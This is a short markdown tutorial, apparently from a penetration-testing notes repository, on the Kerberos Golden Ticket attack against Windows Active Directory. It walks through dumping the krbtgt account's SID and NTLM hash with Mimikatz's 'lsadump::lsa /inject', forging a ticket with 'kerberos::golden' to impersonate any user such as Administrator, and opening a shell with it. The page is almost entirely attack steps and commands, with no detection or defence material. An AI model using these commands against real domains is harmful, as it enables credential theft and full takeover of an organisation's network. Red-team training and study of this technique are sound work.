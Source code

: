 # Golden Ticket Attack

With just a couple pieces of information, you can create a ticket that can be used to impersonate any user across the domain.

## Required pieces of information

1. The name of the user account to impersonate
    * i.e., Administrator
2. The user ID of the user account to impersonate
    * i.e., 500
3. The name of the domain
    * i.e., hydra.test
4. The SID of the Kerberos Ticket Granting Ticket (**krbtgt**) account
    * i.e., S-1-5-21-849420856-2351964222-986696166
5. The NTLM hash of the Kerberos Ticket Granting Ticket (**krbtgt**) account

## Mimikatz

Run *lsadump::lsa* against the **krbtgt** account to obtain its SID and NTLM hash.

```powershell
mimikatz: lsadump::lsa /inject /name:krbtgt
```

![Obtaining information for golden ticket using Mimikatz's lsadump](photos/golden-ticket-lsadump.png)

Create the golden ticket.

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$KRBTGT_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID
```

![Creating a golden ticket using Mimikatz](photos/golden-ticket-kerberos-golden.png)

Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```
